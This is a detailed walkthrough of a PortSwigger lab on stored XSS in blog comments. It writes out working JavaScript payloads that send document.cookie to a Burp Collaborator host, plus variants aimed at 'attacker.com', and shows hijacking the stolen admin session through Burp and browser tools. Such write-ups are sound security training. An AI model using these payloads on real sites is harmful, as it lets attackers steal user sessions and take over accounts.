

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Stored XSS vulnerability in blog comment functionality
- 🎯 Understand cookie exfiltration techniques
- 💉 Craft JavaScript payload to steal victim's session cookie
- 🌐 Use Burp Collaborator to receive exfiltrated data
- 🔑 Hijack admin session using stolen cookie
- 🎉 Impersonate victim to solve lab

---

## 🧠 **Concept Recap**

> **Exploiting cross-site scripting to steal cookies** is a technique where an attacker uses XSS vulnerabilities to execute JavaScript in a victim's browser, capturing their session cookie and sending it to an attacker-controlled server. Session cookies are authentication tokens that identify logged-in users, so stealing them allows complete account takeover without knowing the victim's password. This attack leverages stored XSS where the malicious payload is permanently saved (e.g., in a database) and executes every time any user views the infected content.

### 📊 **The Vulnerability**

**Session Cookie Basics:**

```js
What are session cookies?
├── Authentication tokens stored in browser
├── Automatically sent with every HTTP request
├── Identify the logged-in user to the server
└── Enable stateful sessions over stateless HTTP

Example session cookie:
Cookie: session=abc123xyz789

How servers use it:
User logs in
       ↓
Server creates session
       ↓
Server sends session cookie
       ↓
Browser stores cookie
       ↓
Every request includes cookie
       ↓
Server validates session
       ↓
User stays authenticated ✓

Why attackers want cookies:
├── No password needed
├── Instant account access
├── Bypass 2FA (if session already established)
└── Victim may not notice
```

**Stored XSS in Comments:**

```html
Normal comment submission:

POST /post/comment HTTP/1.1
Host: vulnerable-website.com

csrf=token123&postId=5&comment=Great post!&name=Alice&email=alice@example.com

Stored in database:
┌─────────┬────────┬──────────────┬───────┬──────────────────┐
│ id      │ postId │ comment      │ name  │ email            │
├─────────┼────────┼──────────────┼───────┼──────────────────┤
│ 1       │ 5      │ Great post!  │ Alice │ alice@example.com│
└─────────┴────────┴──────────────┴───────┴──────────────────┘

When displayed on page:
<div class="comment">
    <p class="comment-author">Alice</p>
    <p class="comment-body">Great post!</p>
</div>

Malicious comment submission:

POST /post/comment HTTP/1.1
Host: vulnerable-website.com

csrf=token123&postId=5&comment=<script>alert(1)</script>&name=Hacker&email=hacker@evil.com

Stored in database:
┌─────────┬────────┬──────────────────────────┬────────┬─────────────────┐
│ id      │ postId │ comment                  │ name   │ email           │
├─────────┼────────┼──────────────────────────┼────────┼─────────────────┤
│ 2       │ 5      │ <script>alert(1)</script>│ Hacker │ hacker@evil.com │
└─────────┴────────┴──────────────────────────┴────────┴─────────────────┘

When displayed on page (VULNERABLE):
<div class="comment">
    <p class="comment-author">Hacker</p>
    <p class="comment-body"><script>alert(1)</script></p>
</div>

Browser HTML parser:
└── Sees <script> tag
    └── Executes JavaScript!
        └── alert(1) runs 💥

This affects:
├── Every user who views the blog post
├── Including administrators
├── Payload executes automatically
└── No user interaction needed! ⚠️
```

**Cookie Stealing Attack Flow:**

```HTML
Step 1: Attacker crafts XSS payload
<script>
    fetch('https://attacker.com', {
        method: 'POST',
        body: document.cookie
    });
</script>

Step 2: Attacker submits payload as comment
POST /post/comment
comment=<script>fetch('https://attacker.com'...

Step 3: Payload stored in database
Database: comment = "<script>fetch('https://attacker.com'..."

Step 4: Victim views blog post
GET /post?postId=5

Step 5: Server returns page with comment
<div class="comment">
    <p><script>fetch('https://attacker.com'...</p>
</div>

Step 6: Victim's browser executes JavaScript
fetch('https://attacker.com', {
    method: 'POST',
    body: document.cookie  ← Victim's session cookie!
});

Step 7: Victim's cookie sent to attacker
POST https://attacker.com
Body: session=victim_session_abc123

Step 8: Attacker receives cookie
Attacker server logs: "session=victim_session_abc123"

Step 9: Attacker uses stolen cookie
Cookie: session=victim_session_abc123
└── Attacker now authenticated as victim!

Step 10: Victim remains unaware
└── No visible indication of attack
    └── Victim still logged in normally
        └── Attacker has duplicate session! 💀
```

**Why This Works:**

```r
JavaScript Cookie Access:

document.cookie property:
├── Returns all cookies for current domain
├── Accessible to any JavaScript on page
├── No same-origin restriction (same domain)
└── Can be read and exfiltrated

Example:
// On vulnerable-website.com
console.log(document.cookie);
// Output: "session=abc123; prefs=darkmode; tracking=xyz"

// XSS payload can access this:
var stolenCookies = document.cookie;

// And send it anywhere:
fetch('https://attacker.com', {
    method: 'POST',
    body: stolenCookies
});

Browser security context:
└── XSS runs in victim's browser
    └── Under victim's domain context
        └── Has full access to cookies for that domain
            └── Can exfiltrate to external server! ⚠️

HTTP vs HTTPS:
├── Cookie sent over HTTP → Can be intercepted
├── Cookie sent over HTTPS → Encrypted in transit
└── But XSS runs BEFORE transmission!
    └── Cookie stolen from memory before encryption! 💥

HttpOnly flag:
└── If cookie has HttpOnly flag:
    ├── document.cookie doesn't return it
    ├── JavaScript cannot access it
    └── Prevents XSS cookie theft ✓

But if HttpOnly NOT set:
└── Cookie fully accessible to JavaScript
    └── XSS can steal it
        └── Common vulnerability! ⚠️
```

**Burp Collaborator Explained:**

```js
What is Burp Collaborator?

Official PortSwigger service:
├── Provides temporary subdomains
├── Receives HTTP/DNS/SMTP interactions
├── Logs all incoming requests
└── Used for out-of-band testing

Example subdomain:
https://abc123xyz.burpcollaborator.net

How it works:

Step 1: Generate unique subdomain
Burp Suite → Collaborator tab → "Copy to clipboard"
Result: abc123xyz.burpcollaborator.net

Step 2: Include in XSS payload
<script>
    fetch('https://abc123xyz.burpcollaborator.net', {
        method: 'POST',
        body: document.cookie
    });
</script>

Step 3: Victim executes payload
Victim's browser sends POST request to:
https://abc123xyz.burpcollaborator.net

Step 4: Collaborator receives interaction
Burp Collaborator logs:
├── Request method: POST
├── Request body: session=victim_cookie_123
├── IP address: victim's IP
├── Timestamp: 2024-02-08 14:23:45
└── User-Agent: victim's browser

Step 5: Retrieve data
Burp Suite → Collaborator tab → "Poll now"
└── Shows all received interactions
    └── Including victim's cookie! ✓

Benefits of Burp Collaborator:
✅ No need for external server
✅ Integrated with Burp Suite
✅ Temporary and disposable
✅ Logs all interaction details
✅ Works through firewalls
✅ Supports multiple protocols

Alternative approaches:
├── RequestBin / webhook.site (public)
├── ngrok + local server
├── Your own VPS with logging
└── But Collaborator is easiest! ✓

Lab requirement:
"To prevent the Academy platform being used to attack 
third parties, our firewall blocks interactions between 
the labs and arbitrary external systems."

Translation:
└── Can ONLY use Burp Collaborator
    └── Other external domains blocked
        └── Must use official Collaborator server! ⚠️
```

**Attack Payload Breakdown:**

```javascript
Basic cookie stealing payload:

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>

Line-by-line analysis:

Line 1: <script>
└── Opens JavaScript execution context
    └── Tells browser: "Execute following code"

Line 2: fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
└── Modern JavaScript HTTP request API
    └── Makes asynchronous HTTP request
        └── To attacker-controlled domain

Parameter: method: 'POST',
└── Use HTTP POST request
    └── Cookie will be in request body
        └── More data capacity than GET

Parameter: mode: 'no-cors',
└── CRITICAL for cross-origin requests!
    └── Explanation:

    CORS (Cross-Origin Resource Sharing):
    ├── Browser security mechanism
    ├── Restricts cross-origin requests
    └── Prevents reading responses

    Without 'no-cors':
    └── Browser sends preflight OPTIONS request
        └── Checks if server allows CORS
            └── Collaborator may block
                └── Request fails! ❌

    With 'no-cors':
    └── Browser sends request anyway
        └── Doesn't check response
            └── We don't need response!
                └── Just need to send cookie ✓

    Why this works:
    └── We only need to SEND data (cookie)
        └── Don't need to READ response
            └── 'no-cors' allows sending
                └── Perfect for exfiltration! ✓

Parameter: body: document.cookie
└── Request body contains cookie
    └── document.cookie = all cookies for domain
        └── Sent to Collaborator
            └── Example: "session=abc123; prefs=dark"

Line 7: </script>
└── Closes JavaScript execution context

Complete execution flow:

Browser parses HTML
       ↓
Finds <script> tag
       ↓
Executes JavaScript
       ↓
Calls fetch() function
       ↓
Creates HTTP POST request
       ↓
Target: https://abc123.burpcollaborator.net
       ↓
Body: document.cookie value
       ↓
Browser sends request
       ↓
Collaborator receives cookie
       ↓
Attack successful! 💥

Why fetch() over XMLHttpRequest?

fetch():
✅ Modern API (ES6+)
✅ Promise-based (cleaner)
✅ More concise syntax
✅ Better error handling
✅ Widely supported

XMLHttpRequest (old way):
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://collaborator.net', true);
xhr.send(document.cookie);

Both work, but fetch() is cleaner! ✓

Why fetch() over Image?

Image technique (traditional):
<script>
new Image().src = 'https://collaborator.net/?cookie=' + document.cookie;
</script>

Limitations:
├── GET request only (URL length limits)
├── Cookie in URL (less clean)
└── May be logged in browser history

fetch() advantages:
✅ POST request (more data)
✅ Cookie in body (cleaner)
✅ More professional approach
✅ Better for large cookies

Alternative with Image (also works):
<script>
document.write('');
</script>

URL encoding with Image:
<script>
new Image().src = 'https://BURP-COLLABORATOR-SUBDOMAIN/?c=' + encodeURIComponent(document.cookie);
</script>

Why encodeURIComponent?
└── Cookies may contain special characters
    └── = ; , etc.
        └── Must be URL-encoded
            └── Prevents breaking URL! ✓

Both approaches work:
├── fetch() with POST (recommended)
└── Image with GET (traditional)

Lab uses fetch() → More modern! ✓
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Reconnaissance**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Identify blog posts with comment functionality

**Homepage layout:**

```
┌────────────────────────────────────────────┐
│ Lab: Exploiting XSS to steal cookies       │
├────────────────────────────────────────────┤
│                                            │
│ Blog Posts:                                │
│                                            │
│ ┌────────────────────────────────────┐     │
│ │ Post Title: "First Blog Post"      │     │
│ │ Author: Admin                      │     │
│ │ Date: 2024-02-01                   │     │
│ │ [View post]                        │     │
│ └────────────────────────────────────┘     │
│                                            │
│ ┌────────────────────────────────────┐     │
│ │ Post Title: "Security Thoughts"    │     │
│ │ Author: Admin                      │     │
│ │ Date: 2024-02-05                   │     │
│ │ [View post]                        │     │
│ └────────────────────────────────────┘     │
│                                            │
└────────────────────────────────────────────┘
```

**Initial observations:**

```
✅ Multiple blog posts available
✅ Each post likely has comment section
💡 Need to find comment functionality
💡 Test for XSS vulnerability
```

---

### 📝 **Step 2 — Locate and Test Comment Functionality**

1. 🖱️ Click on any blog post to view it
2. 📜 Scroll down to find the comment section
3. 👀 Observe comment form fields

**Blog post page:**

```
┌────────────────────────────────────────────┐
│ First Blog Post                            │
├────────────────────────────────────────────┤
│                                            │
│ This is the blog post content...           │
│                                            │
├────────────────────────────────────────────┤
│ Comments:                                  │
│                                            │
│ ┌────────────────────────────────────┐     │
│ │ Alice: "Great post!"               │     │
│ └────────────────────────────────────┘     │
│                                            │
│ ┌────────────────────────────────────┐     │
│ │ Bob: "Very informative."           │     │
│ └────────────────────────────────────┘     │
│                                            │
│ Leave a comment:                           │
│ Comment: [___________________________]     │
│ Name:    [___________________________]     │
│ Email:   [___________________________]     │
│ Website: [___________________________]     │
│          [Post Comment]                    │
│                                            │
└────────────────────────────────────────────┘
```

**Test basic XSS:**

1. 🔍 In **Comment** field, enter: `<script>alert(1)</script>`
2. ✏️ In **Name** field, enter: `Test`
3. ✏️ In **Email** field, enter: `test@test.com`
4. ✏️ Leave **Website** field empty (or fill it)
5. 🚀 Click **"Post Comment"**

**Result:**

```
After submission, page redirects to:
"Thank you for submitting your comment"

Click "Back to Blog" to return

Expected behavior if vulnerable:
└── Alert popup appears when viewing comments
    └── XSS confirmed! ✓

If no alert:
└── May need to refresh or check encoding
    └── Or payload might be filtered

In this lab (vulnerable):
Alert appears! 💥

This confirms:
✅ Stored XSS exists
✅ Comment field is vulnerable
✅ JavaScript executes in victims' browsers
✅ Ready for cookie theft! 🎯
```

---

### 🔧 **Step 3 — Set Up Burp Collaborator**

**Important:** You must use **Burp Suite Professional** for this lab (Community Edition doesn't include Collaborator).

1. 🔓 Open **Burp Suite Professional**
2. 🌐 Navigate to the **Collaborator** tab

**Collaborator tab location:**

```
Burp Suite Professional
├── Dashboard
├── Target
├── Proxy
├── Intruder
├── Repeater
├── Collaborator  ← HERE!
├── Sequencer
└── Decoder
```

**Collaborator interface:**

```
┌────────────────────────────────────────────┐
│ Burp Collaborator client                   │
├────────────────────────────────────────────┤
│                                            │
│ Server location:                           │
│ ● Default public server                    │
│ ○ Custom Collaborator server               │
│                                            │
│ [Copy to clipboard]  [Poll now]            │
│                                            │
│ Generated payload:                         │
│ abc123xyz789.burpcollaborator.net          │
│                                            │
│ Interactions:                              │
│ ┌──────────────────────────────────────┐   │
│ │ (empty - waiting for interactions)   │   │
│ └──────────────────────────────────────┘   │
│                                            │
└────────────────────────────────────────────┘
```

3. 🖱️ Click **"Copy to clipboard"**

**What happens:**

```js
Burp generates unique subdomain:
abc123xyz789.burpcollaborator.net
(Your subdomain will be different)

This subdomain:
├── Is unique to your Burp instance
├── Points to PortSwigger's Collaborator server
├── Logs all HTTP/DNS/SMTP interactions
└── Temporary (valid for testing session)

Copied to clipboard:
abc123xyz789.burpcollaborator.net
```

**Important notes:**

```
⚠️ Use the EXACT subdomain copied!
⚠️ Don't add www. or http:// yet
⚠️ Will use full URL in payload next
```

---

### 💉 **Step 4 — Craft Cookie Stealing Payload**

Now we'll create the malicious comment with the cookie-stealing script.

**Payload template:**

```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>
```

**Replace placeholder with your Collaborator domain:**

If your Collaborator subdomain is: `abc123xyz789.burpcollaborator.net`

**Final payload:**

```javascript
<script>
fetch('https://abc123xyz789.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>
```

**Payload explanation:**

```javascript
Component breakdown:

<script> ... </script>
└── JavaScript execution context
    └── Runs in victim's browser

fetch('https://abc123xyz789.burpcollaborator.net', {
└── Makes HTTP request to your Collaborator
    └── Victim's browser sends request
        └── Crosses origin (different domain)

method: 'POST',
└── Uses POST request
    └── Cookie goes in body (not URL)
        └── Cleaner and more capacity

mode: 'no-cors',
└── Bypasses CORS preflight checks
    └── Allows cross-origin POST
        └── Essential for exfiltration!

body: document.cookie
└── Request body = victim's cookies
    └── All cookies for current domain
        └── Includes session cookie! 🎯

Execution flow:

Victim views comment
       ↓
Browser renders HTML
       ↓
Encounters <script> tag
       ↓
Executes JavaScript
       ↓
fetch() called
       ↓
POST request sent
       ↓
Destination: Collaborator
       ↓
Body: session=victim_abc123
       ↓
Collaborator logs request
       ↓
Cookie stolen! 💥
```

---

### 📤 **Step 5 — Submit Malicious Comment**

1. 🔄 Return to the blog post
2. 📝 Open the comment form
3. ✏️ Fill in the form:

**Form data:**

```js
Comment field:
<script>
fetch('https://abc123xyz789.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>

Name field:
Hacker
(Can be anything)

Email field:
hacker@evil.com
(Can be anything)

Website field:
(Can be empty or anything)
```

**Form appearance:**

```HTML
┌────────────────────────────────────────────┐
│ Leave a comment:                           │
│                                            │
│ Comment:                                   │
│ ┌────────────────────────────────────────┐ │
│ │<script>                                │ │
│ │fetch('https://abc123.burpcollaborator. │ │
│ │net', {                                 │ │
│ │    method: 'POST',                     │ │
│ │    mode: 'no-cors',                    │ │
│ │    body: document.cookie               │ │
│ │});                                     │ │
│ │</script>                               │ │
│ └────────────────────────────────────────┘ │
│                                            │
│ Name:    [Hacker_____________________]     │
│ Email:   [hacker@evil.com____________]     │
│ Website: [___________________________]     │
│                                            │
│          [Post Comment]                    │
└────────────────────────────────────────────┘
```

4. 🚀 Click **"Post Comment"**

**After submission:**

```
┌────────────────────────────────────────────┐
│ Thank you for submitting your comment      │
│                                            │
│ Your comment will be visible after         │
│ it's been reviewed.                        │
│                                            │
│ [Back to Blog]                             │
└────────────────────────────────────────────┘
```

**What happens in background:**

```HTML
Comment submitted
       ↓
Stored in database
┌──────┬────────┬───────────────────────┐
│ id   │ postId │ comment               │
├──────┼────────┼───────────────────────┤
│ 42   │ 5      │ <script>fetch('htt... │
└──────┴────────┴───────────────────────┘
       ↓
Lab simulates victim viewing
       ↓
Victim's browser loads post
       ↓
Comment rendered in HTML
       ↓
<div class="comment">
    <script>fetch('https://abc123...</script>
</div>
       ↓
Browser executes script
       ↓
Victim's cookie sent to Collaborator! 💥
```

**Lab simulation note:**

```
"A simulated victim user views all comments 
after they are posted."

This means:
└── Lab automatically simulates admin viewing
    └── Happens within seconds of posting
        └── Admin's cookie will be exfiltrated
            └── Automatically! ✓

In real-world:
└── Would need to wait for real victim
    └── Could take minutes/hours/days
        └── Depends on traffic
            └── But lab is instant! ✓
```

---

### 🔍 **Step 6 — Check Burp Collaborator for Stolen Cookie**

Now we check if the victim's browser sent their cookie to our Collaborator.

1. 🔄 Return to **Burp Suite Professional**
2. 🌐 Navigate to **Collaborator** tab
3. 🖱️ Click **"Poll now"** button

**Polling for interactions:**

```HTTP
Before polling:
┌────────────────────────────────────────────┐
│ Interactions:                              │
│ ┌──────────────────────────────────────┐   │
│ │ (empty)                              │   │
│ └──────────────────────────────────────┘   │
└────────────────────────────────────────────┘

After clicking "Poll now":
┌────────────────────────────────────────────┐
│ Interactions: 1                            │
│ ┌──────────────────────────────────────┐   │
│ │ ✓ HTTP POST from 10.0.3.213          │   │
│ │   Time: 14:23:45                     │   │
│ │   Protocol: HTTP                     │   │
│ └──────────────────────────────────────┘   │
└────────────────────────────────────────────┘

Click on the interaction to view details!
```

4. 🖱️ Click on the **HTTP interaction** to view details

**Interaction details view:**

```r
┌────────────────────────────────────────────┐
│ Request to Collaborator                    │
├────────────────────────────────────────────┤
│ POST / HTTP/1.1                            │
│ Host: abc123xyz789.burpcollaborator.net    │
│ User-Agent: Mozilla/5.0...                 │
│ Accept: */*                                │
│ Origin: https://YOUR-LAB-ID.web-security...│
│ Content-Length: 32                         │
│                                            │
│ secret=s3cr3tV4lu3;session=vNx7CKbPfz3...  │
│ ↑                                          │
│ └── VICTIM'S COOKIES! 🎯                   │
└────────────────────────────────────────────┘
```

**Understanding the captured data:**

```r
Request body contains:
secret=s3cr3tV4lu3;session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp

Parse this:

Cookie 1: secret=s3cr3tV4lu3
├── Lab-specific cookie
└── Not used for authentication

Cookie 2: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
├── Session authentication cookie
└── THIS IS WHAT WE NEED! 🎯

The session cookie:
vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
└── Victim's (admin's) session identifier
    └── Allows impersonation
        └── Account takeover! 💥

Important:
└── Your stolen cookie will be different!
    └── Copy EXACTLY as shown
        └── Will use in next step ✓
```

5. 📋 **Copy the session cookie value**

**How to copy:**

```r
Method 1: Manual selection
└── Select the session value text
    └── Right-click → Copy
        └── Or Ctrl+C / Cmd+C

Method 2: From raw request
└── View raw HTTP request
    └── Find session= parameter
        └── Copy value after equals sign

Example:
session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
        └─────────────────────────────┘
                Copy this part!

⚠️ Don't include:
- "session=" prefix
- Semicolons
- Other cookies
- Whitespace

✅ Copy ONLY the session value!
```

**Verification:**

```r
Copied value should look like:
vNx7CKbPfz3yDko8EIJaoP4te92LgBwp

Characteristics:
├── Long random string
├── Alphanumeric characters
├── ~32-40 characters
└── No spaces or special chars

If you copied correctly:
✅ Ready for session hijacking! 🎯
```

**What if no interactions appear?**

```r
Troubleshooting:

Issue 1: Timing
└── Wait 10-20 seconds
    └── Click "Poll now" again
        └── Lab may take moment to simulate

Issue 2: Payload error
└── Check payload syntax
    └── Ensure correct Collaborator subdomain
        └── Resubmit comment if needed

Issue 3: Burp Collaborator
└── Ensure using Professional version
    └── Community Edition doesn't have Collaborator
        └── Must use Pro! ⚠️

Issue 4: Already solved
└── If lab already solved
    └── May not get new interactions
        └── Lab resets after solving

Wait and poll again:
└── Most issues resolve with patience
    └── Lab simulation is automated
        └── Should see interaction within 30s ✓
```

---

### 🔓 **Step 7 — Hijack Victim Session Using Stolen Cookie**

Now we'll use the stolen session cookie to impersonate the victim (admin).

**Method 1: Using Burp Proxy (Recommended)**

1. 🌐 In your browser, navigate to lab homepage
2. 🔧 Ensure **Burp Proxy** is enabled and intercepting
3. 🔄 Refresh the page (or navigate to any page)

**Burp Proxy intercepts request:**

```HTTP
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR_CURRENT_SESSION
User-Agent: Mozilla/5.0...
Accept: text/html...

↑
└── Your original session cookie
```

4. ✏️ Replace your session cookie with the stolen one and also paste the secret key.

**Before:**

```HTTP
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=ZXk5NotTheRealCookie123abc; secret=i5tpmfsfgo3zustuomkgelzjjgjgz
       ...
```

**After:**

```HTTP
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp; secret=i5tpmfsfgo3zustuomkgelzjjgjgz
                └──────────────────────────────┘         └───────────────────────────┘
                    Victim's stolen cookie!                 Victim's stolen secret!
       ...
```

5. 🚀 Click **"Forward"** to send the modified request

**Server response:**

```HTTP
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
...
Logged in as: administrator
...
</html>
```

**Browser now shows:**

```
┌────────────────────────────────────────────┐
│ ✅ Congratulations!                        │
│                                            │
│ You have successfully exploited the        │
│ stored XSS vulnerability and stolen        │
│ the administrator's session cookie!        │
│                                            │
│ Lab solved! 🎉                             │
└────────────────────────────────────────────┘
```

---

**Method 2: Using Burp Repeater**

1. 🔍 Find any request to the lab in **Proxy → HTTP history**
2. 🖱️ Right-click → **"Send to Repeater"**
3. 🌐 Navigate to **Repeater** tab

**In Repeater:**

```HTTP
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR_OLD_SESSION
...
```

4. ✏️ Modify the Cookie header and Secret:

```HTTP
Before:
Cookie: session=YOUR_OLD_SESSION

After:
Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp; secret=i5tpmfsfgo3zustuomkgelzjjgjgz
```

5. 🚀 Click **"Send"**

**Response shows:**

```HTTP
HTTP/1.1 200 OK
...

<html>
...
Welcome, administrator!
...
</html>
```

**Verification:**

```HTTP
To verify session hijacking worked:

Request: GET /my-account HTTP/1.1
Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp

Response:
<h1>My Account</h1>
<p>Username: administrator</p>
        └── Shows admin account! ✓

This proves:
✅ Session hijacked
✅ Authenticated as administrator
✅ Attack successful! 💥
```

---

**Method 3: Using Browser Developer Tools (Alternative)**

If you don't want to use Burp:

1. 🔧 Open **Developer Tools** (F12)
2. 🌐 Go to **Application** tab (Chrome) or **Storage** tab (Firefox)
3. 🍪 Find **Cookies** in left sidebar
4. 🖱️ Click on your lab domain

**Cookie editor view:**

```
┌────────────────────────────────────────────┐
│ Cookies for YOUR-LAB-ID.web-security...    │
├──────────┬─────────────────────────────────┤
│ Name     │ Value                           │
├──────────┼─────────────────────────────────┤
│ session  │ ZXk5NotTheRealCookie123abc      │
│ secret   │ someValue                       │
└──────────┴─────────────────────────────────┘
```

5. 🖱️ Double-click the **session** cookie value
6. ✏️ Replace with stolen cookie
7. 🔄 Refresh the page

**After refresh:**

```HTTP
Browser sends:
Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp

Server responds:
└── Authenticated as administrator! ✓

Lab solves! 🎉
```

**Using Browser Extensions (Easiest):**

Install cookie editor extension:

- Chrome: "EditThisCookie"
- Firefox: "Cookie-Editor"

Steps:

1. 🔌 Install extension
2. 🖱️ Click extension icon
3. 🔍 Find "session" cookie
4. ✏️ Edit value to stolen cookie
5. 💾 Save
6. 🔄 Refresh page
7. ✅ Lab solved!

---

### ✅ **Step 8 — Confirm Lab Completion**

**Success indicators:**

```
Visual confirmation:
┌────────────────────────────────────────────┐
│ ✓ Lab solved!                              │
│                                            │
│ Congratulations, you solved the lab!       │
└────────────────────────────────────────────┘

Banner shows:
┌────────────────────────────────────────────┐
│  ✅ SOLVED                                 │
│                                            │
│  You successfully exploited stored XSS     │
│  to steal the victim's session cookie      │
│  and hijacked their session.               │
└────────────────────────────────────────────┘

Lab interface:
┌────────────────────────────────────────────┐
│ Lab: Exploiting cross-site scripting       │
│      to steal cookies                      │
│                                            │
│ Status: ✓ Solved                           │
│ Difficulty: Practitioner                   │
└────────────────────────────────────────────┘
```

**What we accomplished:**

```
Attack chain completed:
✓ Found stored XSS vulnerability
✓ Generated Burp Collaborator subdomain
✓ Crafted cookie-stealing payload
✓ Submitted malicious comment
✓ Payload stored in database
✓ Victim (admin) viewed comment
✓ JavaScript executed in victim's browser
✓ Cookie exfiltrated to Collaborator
✓ Retrieved stolen cookie from Collaborator
✓ Hijacked victim's session
✓ Authenticated as administrator
✓ Lab solved! 🎉

Security impact:
└── Complete account takeover
    └── No password needed
        └── Session hijacking via XSS
            └── Critical vulnerability! 💥
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Reconnaissance
         ↓
Access lab → Find blog with comments ✓
         ↓
Step 2: Vulnerability Discovery
         ↓
Test XSS: <script>alert(1)</script>
         ↓
Alert appears → Stored XSS confirmed! ✓
         ↓
Step 3: Burp Collaborator Setup
         ↓
Burp Suite Pro → Collaborator tab
         ↓
Copy subdomain: abc123.burpcollaborator.net ✓
         ↓
Step 4: Payload Crafting
         ↓
<script>
fetch('https://abc123.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>
         ↓
Payload ready ✓
         ↓
Step 5: Payload Delivery
         ↓
Submit as blog comment
         ↓
Stored in database ✓
         ↓
Step 6: Victim Simulation
         ↓
Lab simulates admin viewing comment
         ↓
JavaScript executes in admin's browser
         ↓
Admin's cookie sent to Collaborator ✓
         ↓
Step 7: Cookie Exfiltration
         ↓
Poll Collaborator: Click "Poll now"
         ↓
View HTTP interaction
         ↓
Body: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
         ↓
Cookie stolen! ✓
         ↓
Step 8: Session Hijacking
         ↓
Burp Proxy: Intercept request
         ↓
Replace cookie with stolen value
         ↓
Forward request
         ↓
Authenticated as administrator! ✓
         ↓
Step 9: Lab Completion
         ↓
Server recognizes session hijacking
         ↓
Lab solved! 🎉
```

---

## ⚙️ **Understanding the Attack**

### **Why Session Cookies Are Valuable**

```js
Session-based authentication:

Step 1: User logs in
POST /login
username=admin&password=secret123
         ↓
Step 2: Server validates credentials
✓ Password correct
         ↓
Step 3: Server creates session
Session ID: vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
Stored in database:
┌───────────────────────────┬──────────┐
│ session_id                │ user_id  │
├───────────────────────────┼──────────┤
│ vNx7CKbPfz3yDko8EIJaoP... │ admin    │
└───────────────────────────┴──────────┘
         ↓
Step 4: Server sends session cookie
Set-Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
         ↓
Step 5: Browser stores cookie
Cookies:
├── session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
└── secret=s3cr3tV4lu3
         ↓
Step 6: Subsequent requests
GET /my-account
Cookie: session=vNx7CKbPfz3yDko8EIJaoP4te92LgBwp
         ↓
Step 7: Server validates session
Lookup session ID in database
Match found → User is admin
         ↓
Step 8: Server returns authenticated response
<h1>Welcome, administrator!</h1>

The critical insight:
└── Session cookie = authentication token
    └── Anyone with cookie = authenticated
        └── No password needed!
            └── Just need cookie! 🎯

Why this matters:
├── Sessions persist (hours/days)
├── No re-authentication needed
├── Cookie theft = account access
└── Until session expires or logout! ⚠️

Attack advantage:
└── XSS steals active session
    └── Victim still logged in
        └── Attacker also logged in (same session)
            └── Duplicate access! 💥

Defense: HttpOnly flag
Set-Cookie: session=abc123; HttpOnly
                            └── Prevents JavaScript access!

If HttpOnly set:
document.cookie → Doesn't include session
└── XSS can't steal it ✓

But if HttpOnly NOT set (this lab):
document.cookie → Includes session
└── XSS can steal it! ⚠️

Lab vulnerability:
└── Stored XSS exists
    └── AND session cookie not HttpOnly
        └── Perfect storm for theft! 💥
```

---

### **Stored vs Reflected XSS**

```js
This lab uses STORED XSS:

Stored XSS characteristics:
├── Payload saved in database
├── Executes for all viewers
├── Persistent (until removed)
├── Higher impact
└── More dangerous! ⚠️

Attack flow:
Attacker submits payload
       ↓
Stored in database
       ↓
Every user who views page
       ↓
Payload executes
       ↓
Multiple victims! 💥

